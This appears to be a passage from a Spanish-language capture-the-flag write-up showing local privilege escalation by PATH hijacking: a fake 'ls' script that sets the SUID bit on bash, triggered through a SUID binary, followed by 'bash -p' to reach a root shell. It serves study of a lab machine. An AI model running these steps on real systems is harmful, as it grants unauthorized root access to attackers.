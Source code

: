![image](/assets/images/insecure/9.png)

Vamos a modificar el path para añadir el directorio home del usuario. Ejecutamos:

```bash
johntheripper@6a2ba51ee826:~$ export PATH=/home/johntheripper/:$PATH
PATH=/home/johntheripper/:johntheripper@6a2ba51ee826:~$ echo $PATH
/home/johntheripper/:/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
```

Creamos en el directorio home del usuario **johntheripper** un archivo llamado **ls** que ejecute lo siguiente y después le damos permisos de ejecución:

```bash
#!/bin/bash
chmod +s /usr/bin/bash
```

Ahora ejecutamos el binario **show_files** y después ejecutamos bash -p para obtener la shell de root:

```bash
johntheripper@6a2ba51ee826:~$ ./show_files 
johntheripper@6a2ba51ee826:~$ bash -p
bash-5.2# whoami
root
```